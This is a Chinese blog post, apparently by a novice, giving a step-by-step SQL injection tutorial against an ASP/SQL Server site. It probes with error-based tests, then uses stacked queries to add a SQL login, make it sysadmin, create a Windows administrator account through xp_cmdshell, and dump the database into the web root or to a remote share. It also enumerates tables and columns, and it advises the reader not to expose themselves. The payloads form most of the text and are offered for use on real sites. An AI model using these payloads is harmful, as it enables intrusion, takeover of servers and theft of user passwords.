 ```yaml
---
title: SQL注入实战---利用“dbo”获得SQL管理权限和系统权限
categories: c#.net /vb.net asp.net
tags: sql microsoft 数据库 sqlserver object 测试
---
```

刚刚开始学习SQL注入入侵，有写的不对和不好的地方希望各位师哥，师姐们多多指导。

在一个供求信息发布的网站上测试了一下，页面Http://www.xxx.com/new/new.asp?id=49

我做了如下测试：(1) Http://www.xxx.com/new/new.asp?id=49'

Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14  
[Microsoft][ODBC Microsoft Access Driver] 字符串的语法错误  
在查询表达式 'ID=49'' 中。  
/new.asp，行36

(2) Http://www.xxx.com/new/new.asp?id=49 and 1=1  
（正常返回页面）

(3) Http://www.xxx.com/new/new.asp?id=49 and 1=2  
Microsoft OLE DB Provider for ODBC Drivers 错误 '800a0bcd'  
BOF 或 EOF 中有一个是"真"，或者当前的记录已被删除，所需的操作要求一个当前的记录。  
/new.asp，行42

注：上面的测试已经可以看出有SQL注入的机会，我们用下面一个句子来判断他数据库类型和登陆身份。  
Http://www.xxx.com/new/new.asp?id=49 and user>0  
Microsoft OLE DB Provider for ODBC Drivers 错误 '800a0bcd'  
将nvarchar值 "dbo" 转换数据类型为 int 的列时发生语法错误  
/new.asp，行42  
注：如果显示"dbo" 转换数据类型为 int 的列时发生语法错误 那么就可以用我下面介绍的方法来获得系统管理权限，如果是"abc" 转换数据类型为 int
的列时发生语法错误 那么就用不能用我下面的介绍来获得系统权限了。

获得以上信息后，就可以提交以下URL来一步一步的获得SQL管理员权限和系统权限了。

（1) Http://www.xxx.com/new/new.asp?id=49;exec  
aster.dbo.sp_addlogin fmzm;--  
添加SQL用户

（2) Http://www.xxx.com/new/new.asp?id=49;exec master.dbo.sp_password
null,fmzm,fmzm;--  
设置SQL帐号FMZM 的密码为 FMZM

（3) Http://www.xxx.com/new/new.asp?id=49;exec master.dbo.sp_addsrvrolemember
sysadmin fmzm;--

提升权限：加FMZM进sysadmin管理组（有时候会不成功，就常识下面的句子  
;exec master.dbo.sp_addsrvrolemember fmzm,sysadmin-- 为什么会这样，我也不清清楚，我就遇到了？栽
。。。）

（4) Http://www.xxx.com/new/new.asp?id=49;exec master.dbo.xp_cmdshell 'net user
fmzm fmzm /workstations:* /times:all /passwordchg:yes /passwordreq:yes
/active:yes /add';--  
建立一个系统用FMZM 并设置其密码为FMZM  
（注：/workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes
这些很关键，如果不加这些，你建立的用户很有可能无法登陆，这些是启用你的帐号，并且使密码永不过期的一些相关设置。）

（5) Http://www.xxx.com/new/new.asp?id=49;exec master.dbo.xp_cmdshell 'net
localgroup administrators fmzm /add';--

把帐号FMZM加入到管理员组

OK，到此为止，已经得到了SQL管理权限和系统权限了，还有什么不能做的呢？把上面的句子变个形
开个TELNET，或者用SQL连接器去连接，随便你怎么整了，记得别暴露自己哦 :)目前有些好的IDS已经开始监视xp_cmdshell这些关键字了.

  
附：  
（1） http://Site/url.asp?id=1 ;;and db_name()>0

前面有个类似的例子and user>0，作用是获取连接用户名，db_name()是另一个系统变量，返回的是连接的数据库名。

（2） http://Site/url.asp?id=1;backup database 数据库名 to
disk='c:/inetpub/wwwroot/1.db';--

这是相当狠的一招，从③拿到的数据库名，加上某些IIS出错暴露出的绝对路径，将数据库备份到Web目录下面，再用HTTP把整个数据库就完完整整的下载回来，所有的管理员及用户密码都一览无遗！在不知道绝对路径的时候，还可以备份到网络地址的方法（如//202.96.xx.xx/Share/1.db），但成功率不高。

（3） http://Site/url.asp?id=1 ;;and (select Top 1 name from sysobjects where
xtype='U' and status>0)>0

sysobjects是SQLServer的系统表，存储着所有的表名、视图、约束及其它对象，xtype='U' and
status>0，表示用户建立的表名，上面的语句将第一个表名取出，与0比较大小，让报错信息把表名暴露出来。第二、第三个表名怎么获取？还是可以  
自己考虑下。

（4） http://Site/url.asp?id=1 ;;and (select Top 1 col_name(object_id('表名'),1)
from sysobjects)>0

从（3）拿到表名后，用object_id('表名')获取表名对应的内部ID，col_name(表名ID,1)代表该表的第1个字段名，将1换成2,3,4...就可以逐个获取所猜解表里面的字段名。

